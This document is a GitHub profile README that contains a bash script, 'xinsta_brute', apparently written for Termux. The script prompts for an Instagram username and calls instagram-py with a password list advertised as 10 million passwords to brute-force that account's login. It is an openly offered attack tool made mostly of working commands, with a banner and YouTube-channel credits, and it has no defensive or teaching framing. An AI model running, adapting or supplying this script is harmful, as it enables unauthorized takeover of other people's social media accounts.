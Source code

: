 - 👋 Hi, I’m vikrant

<!---
78605513818/78605513818 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#10M passwors here
grn='\033[1;32m'
red='\033[1;31m'
rset='\033[0m'
ylo='\033[1;33m'
#!/bin/bash
clear
echo
echo '
   
__  ___           _            _                _       
\ \/ (_)_ __  ___| |_ __ _    | |__  _ __ _   _| |_ ___ 
 \  /| | |_ \/ __| __/ _  |   |  _ \|  __| | | | __/ _ \
 /  \| | | | \__ \ || (_| |   | |_) | |  | |_| | ||  __/
/_/\_\_|_| |_|___/\__\__,_|___|_.__/|_|   \__,_|\__\___|
                         |_____|                        
               [#] 10M Password Attack [#]
' |lolcat
printf "\n"
printf "       \e[101m\e[1;77m  >>  Script By VIKRANT KAJAL   << \e[0m\n"
printf "\n"
printf "      \e[100m\e[1;77m >>  Youtube Channel : \e[1;77m Badlife628 \e[100m\e[1;77m << \e[0m\n"
printf "\n"
echo
read -p "[#] Enter Instagram ID/Username : " usrnm
echo
inspass=pass.txt
echo -e "\e[1;31m Loading 10M Passwords... \e[0m"
sleep 4
if [ $inspass = 0 ]                                             
then
echo -e  "$ylo >>> exiting........! Bye Bye :) <<<$rset"        
else

  instagram-py --username $usrnm --password-list $inspass

echo
sleep 30.0
cd /data/data/com.termux/files/home
fi
sleep 30.0
cd /data/data/com.termux/files/home/xinsta_brute
bash xinsta_brute.sh
